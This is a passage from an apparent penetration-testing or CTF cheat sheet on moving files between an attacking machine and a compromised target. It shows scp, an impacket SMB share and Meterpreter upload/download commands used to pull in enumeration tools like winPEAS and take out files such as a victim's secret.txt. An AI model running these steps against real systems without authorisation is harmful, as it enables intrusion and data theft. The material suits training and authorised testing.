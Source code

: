 ```bash
> exit
```

---

### 3. Using SCP/SFTP (If SSH is Open)
This is a secure and efficient method if you have SSH credentials on the target.

**From Your Attacking Machine:**
```bash
# Upload a file TO the target (PUSH)
scp /path/to/linpeas.sh username@TARGET_IP:/tmp/linpeas.sh

# Download a file FROM the target (PULL)
scp username@TARGET_IP:/path/to/flag.txt ./
```

---

### 4. Using SMB (Windows File Sharing)
If you can create an SMB share, you can easily transfer files.

**On Your Attacking Machine (Kali):**
```bash
# Create a simple SMB share
sudo impacket-smbserver share-name /path/to/your/files -smb2support -username user -password pass
```
**On the Target Windows Machine:**
```cmd
# Map the network drive and copy the file (if allowed)
net use Z: \\YOUR_IP\share-name /user:user pass
copy Z:\winpeasany.exe .

# Or copy directly without mapping a drive
copy \\YOUR_IP\share-name\winpeasany.exe .
```

---

### 5. Using Metasploit/Meterpreter
This is often the simplest method once you have a initial shell.

**From a Meterpreter Session:**
```bash
# UPLOAD a file from your machine to the target
meterpreter > upload /path/to/winpeasany.exe C:\\Windows\\Temp\\

# DOWNLOAD a file from the target to your machine
meterpreter > download C:\\Users\\Victim\\secret.txt ./

# The meterpreter shell will automatically use the established connection.
```

---
